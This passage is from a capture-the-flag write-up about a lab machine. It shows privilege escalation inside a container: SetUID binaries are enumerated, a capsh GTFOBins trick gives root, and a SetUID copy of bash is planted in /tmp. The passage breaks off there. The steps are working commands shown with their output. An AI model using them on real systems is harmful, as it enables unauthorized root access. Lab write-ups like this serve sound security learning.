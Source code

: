 ### root in Container

The container doesn’t have `sudo`. There are SetUID binaries:

    
    
    www-data@50bca5e748b0:/var/www$ find / -perm -4000 -ls 2>/dev/null
        42364     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
        42417     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
        42317     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
        42314     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
        42407     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
         5431     32 -rwsr-xr-x   1 root     root        30872 Oct 14  2020 /sbin/capsh
        41798     56 -rwsr-xr-x   1 root     root        55528 Jan 20  2022 /bin/mount
        41819     36 -rwsr-xr-x   1 root     root        35040 Jan 20  2022 /bin/umount
        41813     72 -rwsr-xr-x   1 root     root        71912 Jan 20  2022 /bin/su
    

`capsh` is interesting (it especially stands out because it’s in `sbin`). It
has a [GTFObins page](https://gtfobins.github.io/gtfobins/capsh/):

![image-20230501071256012](../img/image-20230501071256012.png)

Running the command works:

    
    
    www-data@50bca5e748b0:/var/www$ capsh --gid=0 --uid=0 --
    root@50bca5e748b0:/var/www# 
    

### SetUID bash

Inside the container, I’ll make a copy of `bash` and set it to SetUID:

    
    
    root@50bca5e748b0:/var/www# cp /bin/bash /tmp/0xdf
    root@50bca5e748b0:/var/www# chmod 4777 /tmp/0xdf 
    

On the host, this shows up as 4777 (note the `s` where the owner `x` would
be):
